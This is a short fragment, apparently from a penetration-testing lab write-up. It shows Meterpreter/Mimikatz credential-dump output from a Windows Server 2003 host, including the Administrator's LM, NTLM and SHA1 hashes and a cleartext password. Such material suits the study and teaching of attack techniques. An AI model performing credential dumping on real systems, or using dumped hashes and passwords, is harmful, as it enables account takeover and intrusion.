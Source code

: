 ```meterpreter
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 157291 (00000000:0002666b)
Session           : Interactive from 0
User Name         : Administrator
Domain            : WIN2003
Logon Server      : WIN2003
Logon Time        : 2022-1-14 13:07:59
SID               : S-1-5-21-3636755759-1784588792-1154290278-500
        msv :
         [00000002] Primary
         * Username : Administrator
         * Domain   : WIN2003
         * LM       : 6c634e36565f85fc9c5014ae4718a7ee
         * NTLM     : f099c4a637f9b871487bbb03962f79b5
         * SHA1     : 4df4d4101487c8266ecc4b7174affa548cbd56c3
        wdigest :
         * Username : Administrator
         * Domain   : WIN2003
         * Password : admin555
        kerberos :
         * Username : Administrator
         * Domain   : WIN2003
         * Password : admin555
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2022-1-14 13:07:43
SID               : S-1-5-19
        msv :
        wdigest :
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN2003$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2022-1-14 13:07:43
SID               : S-1-5-18
        msv :
        wdigest :
        kerberos :
         * Username : win2003$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
```
